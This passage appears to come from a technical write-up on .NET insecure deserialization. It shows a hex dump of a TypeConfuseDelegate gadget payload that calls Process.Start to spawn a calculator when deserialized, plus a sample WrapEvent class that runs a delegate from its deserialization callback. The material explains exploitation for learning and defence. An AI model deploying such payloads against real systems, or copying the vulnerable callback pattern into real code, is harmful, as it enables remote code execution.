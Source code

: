 ```
00000760  2e 50 72 6f 63 65 73 73  20 53 74 61 72 74 28 53  |.Process Start(S|
00000770  79 73 74 65 6d 2e 53 74  72 69 6e 67 2c 20 53 79  |ystem.String, Sy|
00000780  73 74 65 6d 2e 53 74 72  69 6e 67 29 08 00 00 00  |stem.String)....|
00000790  0a 01 0a 00 00 00 09 00  00 00 06 16 00 00 00 07  |................|
000007a0  43 6f 6d 70 61 72 65 09  0c 00 00 00 06 18 00 00  |Compare.........|
000007b0  00 0d 53 79 73 74 65 6d  2e 53 74 72 69 6e 67 06  |..System.String.|
000007c0  19 00 00 00 2b 49 6e 74  33 32 20 43 6f 6d 70 61  |....+Int32 Compa|
000007d0  72 65 28 53 79 73 74 65  6d 2e 53 74 72 69 6e 67  |re(System.String|
000007e0  2c 20 53 79 73 74 65 6d  2e 53 74 72 69 6e 67 29  |, System.String)|
000007f0  06 1a 00 00 00 32 53 79  73 74 65 6d 2e 49 6e 74  |.....2System.Int|
00000800  33 32 20 43 6f 6d 70 61  72 65 28 53 79 73 74 65  |32 Compare(Syste|
00000810  6d 2e 53 74 72 69 6e 67  2c 20 53 79 73 74 65 6d  |m.String, System|
00000820  2e 53 74 72 69 6e 67 29  08 00 00 00 0a 01 10 00  |.String)........|
00000830  00 00 08 00 00 00 06 1b  00 00 00 71 53 79 73 74  |...........qSyst|
00000840  65 6d 2e 43 6f 6d 70 61  72 69 73 6f 6e 60 31 5b  |em.Comparison`1[|
00000850  5b 53 79 73 74 65 6d 2e  53 74 72 69 6e 67 2c 20  |[System.String, |
00000860  6d 73 63 6f 72 6c 69 62  2c 20 56 65 72 73 69 6f  |mscorlib, Versio|
00000870  6e 3d 34 2e 30 2e 30 2e  30 2c 20 43 75 6c 74 75  |n=4.0.0.0, Cultu|
00000880  72 65 3d 6e 65 75 74 72  61 6c 2c 20 50 75 62 6c  |re=neutral, Publ|
00000890  69 63 4b 65 79 54 6f 6b  65 6e 3d 62 37 37 61 35  |icKeyToken=b77a5|
000008a0  63 35 36 31 39 33 34 65  30 38 39 5d 5d 09 0c 00  |c561934e089]]...|
000008b0  00 00 0a 09 0c 00 00 00  09 18 00 00 00 09 16 00  |................|
000008c0  00 00 0a 0b                                       |....|
```

Trying to deserialize the above object would cause a calculator to spawn on the system. As observable from the command, the gadget `TypeConfuseDelegate` was used for exploitation. The process used by this gadget is different yet similar to the one used above by the custom implemented RCE class. 

Before digging deep into the process used by `TypeConfuseDelegate`, it is necessary to describe how the Delegate class is used in the .NET architecture, and how it can be exploited by insecure deserialization in a similar way to the above RCE class. Considering the following class:

```cs
[Serializable] 
public class WrapEvent : IDeserializationCallback
{
    Delegate _delegated;
    string _parameters;
    public WrapEvent(Delegate delegated, string parameters)
    {
        _delegated = delegated;
        _parameters = parameters;
    }
    public bool Run()
    {
        return (bool)_delegated.DynamicInvoke(_parameters);
    }

    public void OnDeserialization(object sender)
    {
        Run();
    }
}
```

